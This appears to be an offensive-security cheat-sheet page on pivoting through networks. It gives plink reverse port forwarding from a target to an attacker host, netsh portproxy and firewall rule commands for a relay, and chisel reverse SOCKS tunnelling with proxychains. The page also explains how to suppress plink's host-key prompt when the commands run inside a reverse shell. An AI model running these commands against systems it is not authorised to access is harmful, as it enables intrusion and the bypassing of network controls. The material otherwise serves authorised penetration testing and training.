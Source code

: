 # Port Forwarding & Tunneling

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
* [https://github.com/3proxy/3proxy](https://github.com/3proxy/3proxy)
* [https://cheatsheet.haax.fr/network/pivot\_techniques/](https://cheatsheet.haax.fr/network/pivot\_techniques/)

## Readings

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
* [https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy](https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy)
* [https://orangecyberdefense.com/fr/insights/blog/ethical\_hacking/etat-de-lart-du-pivoting-reseau-en-2019/](https://orangecyberdefense.com/fr/insights/blog/ethical\_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```

## Socks Proxy (Chisel)

When trying to pivot through a Windows relay.

On attacker:

```
chisel server -p 4444 --reverse --socks5
```

On relay:

```
.\chisel.exe client <attacker ip>:4444 R:1080:socks
```

Don't forget to update /etc/proxychains4.conf:

```
socks5 127.0.0.1 1080
```
